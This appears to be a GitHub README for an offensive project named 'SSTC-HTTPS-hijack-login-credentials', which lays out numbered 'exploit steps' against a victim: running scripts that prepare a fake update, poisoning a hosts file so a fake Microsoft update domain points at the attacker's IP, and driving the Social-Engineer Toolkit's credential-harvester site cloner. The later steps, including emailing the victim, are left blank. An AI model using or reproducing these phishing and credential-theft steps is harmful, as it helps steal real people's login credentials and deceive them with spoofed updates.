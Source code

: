 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)


- Installing requirements
     https://github.com/trustedsec/social-engineer-toolkit

- Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
------------------------------------------------------------

# Exploit steps:

1. - Preparing for fake update for the victim:
```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```

2. - Preparing your hosts-file for exploiting of the victim:
     // fakesite.login.com
```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject
bash fakehost.sh
     type the attacker IP _your_IP
     type the fake domain microsoft.update.com
     enter
```

3. - setoolkit
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
4. - Prepare fake update for the victim
```bash

```


5. - Sending email on the victim





